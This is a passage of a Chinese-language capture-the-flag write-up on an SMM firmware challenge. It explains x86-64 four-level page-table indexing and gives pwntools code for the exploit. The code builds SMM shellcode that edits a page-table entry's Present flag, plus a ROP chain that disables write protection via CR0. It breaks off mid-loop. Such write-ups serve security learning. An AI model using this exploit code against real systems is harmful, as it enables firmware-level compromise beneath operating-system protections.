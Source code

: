 最后一个难点就是页表条目的定位：

> [!info] 
> 在 x86-64 架构中，使用的是四级页表，这包括PML4（Page Map Level 4）、PDPT（Page Directory Pointer Table）、PDT（Page Directory Table）、和PT（Page Table），我们的目的是定位特定虚拟地址（在题目中是 0x44440000）的页表项（Page Table Entry, PTE），并修改其属性以用于绕过内存保护机制。 
> 
> 对于采用四级页表时的虚拟地址，0-11 bits 用来表示页内偏移、12-20 bits 索引 PT、21-29 bits 索引 PDT、30-38 bits 索引 PDPT、39-47 bits 索引 PML4，而更高的位则为符号扩展（并用于标识内核的虚拟地址）。
> 
> 值得注意的是，PML4（Page Map Level 4）的基地址存在于 CR3 寄存器中，在 CPU 做地址转换时由 MMU 完成对 CR3 的访问、寻址。

下面的 shellcode 中实现了根据 CR3 找到 0x44440000 对应的页表项、修改 `P` 标志位、写回、调用 Cowsay 函数输出的功能，其中为了压缩 payload 长度花了不少力气（不能超过 400 字节，感觉这个限制略有一些麻烦，不过比赛中可以用 ud2 触发内存访问错误，借助错误 dump 输出 flag）：

```python
smm_shellcode = asm(f"""
    // mov rax, cr3;
    // mov rbx, 0xffffffff000; // 去除标志位，提取出页帧信息
    mov rax, [rax + {0x44440000 >> 39} * 8];
    and rax, rdi;
    mov rax, [rax + {(0x44440000 >> 30) & 0x1ff} * 8];
    and rax, rdi;
    mov rax, [rax + {(0x44440000 >> 21) & 0x1ff} * 8];
    and rax, rdi;
    mov rdi, rax;
    mov rax, [rax + {(0x44440000 >> 12) & 0x1ff} * 8];
    or al, 0x1; // Present flag
    mov [rdi + {(0x44440000 >> 12) & 0x1ff} * 8], rax;
    // push 0x44440000;
    // pop rcx;
    // push 0x8; pop rdx;
    // mov rax, {Cowsay_addr};
    call rbx;
""")
lianpwn.lg("len(smm_shellcode)", len(smm_shellcode))
smm_shellcode = smm_shellcode.ljust(((len(smm_shellcode) // 8) + 1) * 8, b"\x90")

payload = flat(
    {
        0x00: [
            pop_rax_rdi_ret + 1,  # rbx
            allocated_buf
            + 0x18
            + 0x48
            + 0x8
            - 0x38
            - 0x18,  # after ( (guid + size) + 0x48 + 8)
        ],
        0x48 - 0x38: [
            # disable WP
            pop_rax_rdi_ret,
            0x80000032,
            0,
            mov_cr0_rax_ret,
            pop_rdx_rcx_rbx + 2,
            VariableSmm_addr + 0x1000,
            pop_rax_rdi_ret + 1,
            pop_rax_rdi_ret + 2,
        ],
    },
    word_size=64,
)

for i in range((len(smm_shellcode) // 8)):
```